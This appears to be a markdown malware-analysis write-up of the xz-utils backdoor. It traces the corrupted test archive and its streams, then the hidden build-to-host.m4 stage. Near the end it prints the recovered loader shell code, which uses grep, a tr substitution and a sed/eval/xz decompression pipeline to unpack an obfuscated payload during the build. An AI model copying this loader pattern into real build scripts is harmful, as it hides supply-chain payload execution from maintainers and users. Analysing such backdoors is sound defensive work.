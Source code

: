 After catting the bad-3-corrupt_lzma2.xz file, the resulting bunch of data contained the string Hello World in the middle, a little message from the attacker. Then, after decompressing the file, the data was malformed, meaning decompressing it will not work.
![Picture of corrupted data](/img/corrupt_xz.png)

There were three separate headers, _7zXZ_, inside the file. This file has three separate compression streams. The first stream is located from 0-72 bytes in and contains the following

```
####Hello####
```

The next stream was located between 73-440 and but was corrupted

The last stream was located between 440-512 and was simply

```
####World####
```

### Step two - Decorruption!

The corruption of the xz stream is a sign of obfuscation and tapering.

The target script was included in a tarball of v5.6.0 and v5.6.1. Under m4 was a script called build-to-host.m4, which isn't included in the git rep. The run build process runs this script. It changes many bytes inside the code to other bytes using the tr command. As cited here, [gynvael](https://gynvael.coldwind.pl/?lang=en&id=782).

In the build script, a few variables get defined, the first being gl_am_configmake, which starts the activities.

```sh
  gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
```

This gets the location of the bad-3-corrupt_lzma2.xz in the test directory

```sh
./tests/files/bad-3-corrupt_lzma2.xz
```

Another variable to be defined is the gl_path_map,

```sh
  gl_path_map='tr "\t \-_" " \t_\-"'
```

This command translates characters inside a file. This will be used inside the script to change values inside the compressed file.

After filtering through the script, the bad code that is left is

```sh
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
gl_path_map='tr "\t \-_" " \t_\-"'
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
# gets set to xz
# checks for path
if test "x$gl_am_configmake" != "x"; then
    # translates file and unpacks bad-3-corrupt_lzma2.xz
    gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
else
    gl_[$1]_config=''
fi

# Note: executing this code can lead to the payload to be executed.
#_LT_TAGDECL([], [gl_path_map], [2])dnl
#_LT_TAGDECL([], [gl_[$1]_prefix], [2])dnl
#_LT_TAGDECL([], [gl_am_configmake], [2])dnl
#_LT_TAGDECL([], [[$1]_c_make], [2])dnl
```